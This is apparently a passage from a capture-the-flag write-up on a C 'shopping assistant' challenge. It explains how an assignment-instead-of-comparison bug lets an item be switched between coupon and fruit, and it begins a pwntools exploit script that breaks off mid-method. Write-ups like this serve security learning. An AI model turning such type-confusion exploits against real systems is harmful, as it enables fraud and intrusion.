 ```c
if (choice_type == TYPE_COUPON) {
    printf("You can not convert to coupon!\n");
} 
```

So, how do we proceed? Well, a closer examination of `can_edit_item` reveals a few bugs. Did you spot them? Here they are: `(item->type = TYPE_FRUIT)` and `(item->type = TYPE_COUPON)`. In these cases, only a single equal sign is used, instead of a double equal sign. This means that the `item->type` is actually assigned instead of being compared. This is great news, since this will allow us to move between a coupon and a grocery item. We want the item to be a grocery item? We need to invoke the function while `item->grocery_item.amount_items > 0` and the item will become a fruit (returning at the first `return true`). We want it to be a coupon? We invoke the function while `item->grocery_item.amount_items == 0`, and after it becomes a fruit it continues to the next condition and then becomes a coupon (returning at the second `return false`).

So our plan is:

 1. Load the coupons
 2. Edit the second coupon (turning it into a fruit) and set the amount of kilograms to 1
 3. Edit the second coupon (now a fruit) and set the amount of items to 0
 4. (Try to) edit the second coupon (still a fruit), turning it back into a coupon
 5. Print the coupons


The following script will invoke the needed sequence:

```python
# First, generate a pwntools template with the following command:
#  pwn template --host csa.csa-challenge.com --port 1111
#===========================================================
#                    EXPLOIT GOES HERE
#===========================================================

from enum import Enum
from typing import Union

class ComputedShoppingAssistant():

    class MenuOption(Enum):
        ADD_ITEM        = 1
        EDIT_ITEM       = 2
        REMOVE_ITEM     = 3
        VIEW_CART       = 4
        APPLY_COUPON    = 5
        CHECKOUT        = 6

    class ItemProperty(Enum):
        TYPE            = 1
        KILOGRAMS       = 2
        ITEMS           = 3
        LOAVES          = 4
        LITERS          = 5
        DESCRIPTION     = 6
        INVALID         = 7

    def __init__(self, io: pwnlib.tubes.tube):
        self.io = io

    def _select_menu(self, selection: "ComputedShoppingAssistant.MenuOption") -> None:
        self.io.recvuntilS(b"What would you like to do?\r\n")
        for _ in self.MenuOption:
            self.io.recvline()
        self.io.sendline(str(selection.value).encode("ascii"))

    def apply_coupon(self, coupon: str) -> bool:
        self._select_menu(self.MenuOption.APPLY_COUPON)
```